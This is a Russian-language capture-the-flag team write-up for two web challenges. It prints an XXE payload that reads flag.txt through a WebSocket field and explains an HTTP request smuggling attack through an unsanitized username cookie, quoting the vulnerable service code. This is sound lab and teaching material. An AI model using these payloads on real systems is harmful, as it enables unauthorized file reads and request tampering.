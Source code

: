 # Отчет команды "Underfined"

# CTF
## WEB #1
Взаимодействие с бэкэндом происходит через WebSocket, имеется несоклько полей, используем поле countries для подачи вредоносной нагрузки. Далее пытаемся эксплуатировать уязвимость XXE (XML external entity), которая возникает в результате базовой конфигурации xml парсера, выполняем функцию открытия файла `flag.txt`, получаем в ответе содержимое, которое расшифровываем функцией decrypt (js).

Paylod:
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
  <countries>&xxe;</countries>
  <startdate></startdate>
  <startdate></enddate>
  <resttype></resttype>
</root>
```
![](https://i.imgur.com/marKxY6.png)

## WEB #2

Были даны исходники двух сервисов: service1, service2.

Первый сервис имел функционал авторизации и регистрации, второй выполнял лишь одну функцию - отвечал на входящие GET-запросы, если флаг, передаваемый в куки был таким же, как сохраненый локально в переменных окружения

```python=
FLAG = os.environ.get("FLAG", "flag{flag}")

@app.route("/")
def main():
    flag = request.cookies.get("flag")
    username = request.cookies.get("username")
    if FLAG == flag:
        return f"Hello, {username}"
    else:
        return f"I don't trust you!"
```

В первом сервисе нашли странные строки:
```python=
payload = f"""GET / HTTP/1.1\r\nHost: 0.0.0.0:3001\r\nCookie: username={username};flag={FLAG}\r\n\r\n"""
    sock.send(payload.encode())
```
Мы можем влиять только на юзернейм, и погуглив мы выяснили, что это скорее всего http-smuggling. 
В burp перехватили запрос регистрации и изменили содержимое поля username на полезную нагрузку.
![Измененый запрос регистрации](https://i.imgur.com/ETjZFMA.png)
